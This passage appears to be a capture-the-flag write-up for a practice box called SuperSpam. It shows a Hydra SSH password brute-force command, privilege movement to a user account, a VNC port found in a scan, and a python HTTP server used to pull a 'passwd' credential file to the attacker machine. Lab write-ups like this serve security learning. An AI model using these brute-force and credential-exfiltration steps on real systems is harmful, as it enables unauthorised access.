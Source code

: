 <br>

<h3>Hydra</h3>

```bash
:~/SuperSpam# hydra -L users.txt -P password.txt ssh://superspam.thm -s 4012
```

<img width="1138" height="227" alt="image" src="https://github.com/user-attachments/assets/e99d2574-f32d-4060-86bd-e09f4ad505a3" />

<br>


<h3>Donalddump</h3>

```bash
www-data@ip-xx-xxx-x-xxx:/home/lucy_loser/.MessagesBackupToGalactic$$ su donalddump
Password: 
bash: /home/donalddump/.bashrc: Permission denied
donalddump@ip-xx-xxx-x-xxx:/home/lucy_loser/.MessagesBackupToGalactic$ 
```

```bash
donalddump@ip-xx-xxx-x-xxx:/home$ cd donalddump
bash: cd: donalddump: Permission denied
```

```bash
donalddump@ip-xx-xxx-x-xxx:$ ls -lah
total 44K
drwxrwxrwx 6 donalddump donalddump 4.0K Apr  9  2021 .
drwxr-xr-x 9 root       root       4.0K Jul  3 18:08 ..
lrwxrwxrwx 1 root       root          9 Apr  9  2021 .bash_history -> /dev/null
-rw-r--r-- 1 donalddump donalddump  220 Feb 20  2021 .bash_logout
-rw-r--r-- 1 donalddump donalddump 3.7K Feb 20  2021 .bashrc
drwx------ 2 donalddump donalddump 4.0K Apr  8  2021 .cache
drwx------ 3 donalddump donalddump 4.0K Apr  8  2021 .gnupg
drwxr-xr-x 2 root       root       4.0K Feb 24  2021 morning
drwxr-xr-x 2 root       root       4.0K Feb 24  2021 notes
-rw-r--r-- 1 root       root          8 Apr  8  2021 passwd
-rw-r--r-- 1 donalddump donalddump  807 Feb 20  2021 .profile
-rw-rw-r-- 1 donalddump donalddump   36 Apr  9  2021 user.txt
```

<br>

<p>In Rustscan ...</p>

```bash
5901/tcp open  vnc      syn-ack VNC (protocol 3.8)
```

<br>

```bash
donalddump@ip-xx-xxx-x-xxx:$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
AttackIP - - [03/Aug/2025 xx:xx:xx] "GET /passwd HTTP/1.1" 200 -
```
